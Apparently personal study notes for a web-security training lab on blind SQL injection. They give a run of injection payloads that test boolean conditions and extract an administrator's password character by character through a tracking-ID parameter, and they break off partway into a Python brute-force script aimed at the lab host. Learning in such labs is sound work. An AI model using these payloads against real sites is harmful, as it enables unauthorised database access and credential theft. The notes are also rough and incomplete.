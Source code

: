 so you put this   ' and '1'='1 (you dont comment, and you left the commas)
```
select * from products where trackingId='fwkefo39i' and '1'='1' 
```
Order by 1 doesnt give me errors
```
BnrNOCeQTPXBkC9m' order by 1-- -
```

so... when we do another query we do this its fake
```
BnrNOCeQTPXBkC9m' and (select 'a' from users limit 1)-- -
```
this is true
```
BnrNOCeQTPXBkC9m' and (select 'a' from users limit 1)='a
```
If someone of the on the data contains a 'a' for example administrators , this in theory will return true
```
BnrNOCeQTPXBkC9m' and (select 'a' from users limit 1)='a
```
now, more precise is on this way
```
BnrNOCeQTPXBkC9m' and (select 'a' from users where username='administrator')='a
```
Now we take just the first character of the username
we filter the a
```
BnrNOCeQTPXBkC9m' and (select substring(username,1,1) from users where username='administrator')='a
```
' union select (substring(schema_name ,1,1)='a') from information_schema.schemata -- -


now the second character
```
BnrNOCeQTPXBkC9m' and (select substring(username,1,2) from users where username='administrator')='d
```
We can filter the password..
```
BnrNOCeQTPXBkC9m' and (select substring(password,1,1) from users where username='administrator')='a
```
and we make an attack type snipper 

We must change the letter and try to log one by one... and then look on the lenght of the response, and we can see some difference between the others, the first character looks like a 1

![[Screenshot_2023-08-23_13_54_41.png]]

To make this task better we are going to create a python cript

```
#!/usr/bin/python3

from pwn import *
import requests, signal ,time, pdb, sys, string

def def_handler(sig, frame):
    print('\n\n[!] Saliendo..\n')
    sys.exit(1)

#CTRL +C
signal.signal(signal.SIGINT, def_handler)

main_url ="https://0aa900d60412867080e7cbc700ab00e9.web-security-academy.net"
#you can import more (string.another)
characters=string.ascii_lowercase + string.digits

#Function that aplys the blind request
def makeRequest():
```